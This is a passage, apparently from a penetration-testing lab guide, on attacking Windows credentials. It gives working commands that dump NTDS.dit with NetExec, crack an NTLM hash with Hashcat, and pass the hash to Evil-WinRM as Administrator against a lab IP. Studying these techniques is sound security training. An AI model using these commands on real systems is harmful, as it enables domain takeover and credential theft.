 #### A faster method: Using NetExec to capture NTDS.dit

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

### Cracking hashes and gaining credentials

#### Cracking a single hash with Hashcat

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### Pass the Hash (PtH) considerations

#### Pass the Hash (PtH) with Evil-WinRM Example

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

## Credential Hunting in Windows

`Credential hunting` is the process of performing detailed searches across the file system and through various applications to discover credentials.

### Search Tools

#### Windows Search

![Windows Search](WindowsSearch.webp)

